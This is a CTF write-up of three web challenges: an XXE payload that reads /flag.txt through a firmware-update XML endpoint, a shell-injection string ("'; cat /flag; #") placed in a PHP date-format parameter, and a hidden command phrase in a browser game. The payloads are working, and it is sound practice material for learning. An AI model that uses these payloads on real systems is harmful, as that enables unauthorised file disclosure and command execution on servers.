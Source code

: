 # 🛡️ CTF Challenge Write-Up: Real-World Web Exploits

**Author:** Raj Konkar  
**Date:** May 12, 2025

This write-up presents three web vulnerabilities I exploited during CTF practice sessions, simulating real-world scenarios: XML External Entity Injection (XXE), command injection, and a frontend logic flaw. Each challenge was approached with methodical testing and an emphasis on understanding both root cause and impact.

---

## 🔓 Exploit 1: XML External Entity Injection (XXE) in Firmware Update API

**Vulnerability Type:** XML External Entity Injection (XXE)  
**Impact:** Arbitrary file disclosure from server  
**Target:** `/api/update` endpoint

### 🔍 Reconnaissance & Discovery
By reviewing frontend JavaScript (`update.js`), I found that the app sends XML to `/api/update` using `Content-Type: application/xml`. This indicated the use of an XML parser, potentially misconfigured.

I used `curl` to manually send malformed XML and observed error messages referencing encoding and entity parsing — a common indicator of vulnerable parsers.

### 💥 Exploit Payload
```xml
<!DOCTYPE FirmwareUpdateConfig [
  <!ELEMENT FirmwareUpdateConfig ANY >
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
  </Firmware>
</FirmwareUpdateConfig>
```

### ✅ Result
The server response contained the full contents of `/flag.txt`, confirming a successful XXE-based file disclosure.

> **Why this worked:** The XML parser allowed external entity resolution and accessed a file without sanitization or restriction.

---

## 🛠️ Exploit 2: Command Injection in PHP Time App

**Vulnerability Type:** OS Command Injection  
**Impact:** Remote command execution and file read  
**Target:** `format` parameter in `index.php`

### 🔍 Reconnaissance & Discovery
During source analysis of a time-displaying app, I found that `TimeModel.php` passed unsanitized user input directly into a shell command via PHP `exec()`:

```php
$this->command = "date '+" . $format . "'";
```

The input was never validated or escaped, creating a direct command injection vector.

### 💥 Exploit Payload
```bash
'; cat /flag; #
```

Encoded as:
```
%27%3Bcat%20/flag%3B%23
```

Final URL:
```
http://[target]/?format=%27%3Bcat%20/flag%3B%23
```

### ✅ Result
The app returned the contents of `/flag`, confirming successful command execution via injection.

> **Why this worked:** Shell metacharacters were directly injected, bypassing the intended `date` command logic.

---

## 🎮 Exploit 3: Frontend Logic Flaw in Text-Based Game

**Vulnerability Type:** Frontend-hidden logic command  
**Impact:** Hidden win condition execution  
**Target:** Text adventure game API

### 🔍 Reconnaissance & Discovery
While playing a browser-based command game, I opened DevTools and monitored calls to `/api/options`. This response contained an unused `"secret"` command string:

```json
"secret": ["Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"]
```

The game UI only accepted uppercase input, but the backend still accepted exact string matches regardless of case.

### 💥 Exploit Execution
```
Blip-blop, in a pickle with a hiccup! Shmiggity-shmack
```

### ✅ Result
Entering the secret phrase triggered the hidden `/api/monitor` route, and the app displayed the flag:

```
HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!_ab637978c1631b43cc6040d8a1e544ba}
```

> **Why this worked:** Hidden logic was client-controlled, and backend validation did not enforce UI constraints.

---

## 🧠 Key Takeaways

- XXE and command injection flaws often result from trusting user input without strict parsing rules or input validation.
- Reviewing JavaScript and browser traffic (via DevTools) can expose hidden logic or backend secrets.
- CTFs are an effective way to build intuition around real-world vulnerabilities and strengthen offensive security skills.

---

> 📌 *More writeups, tools, and security scripts at:*  
> **[https://github.com/rajkonkar](https://github.com/rajkonkar)**

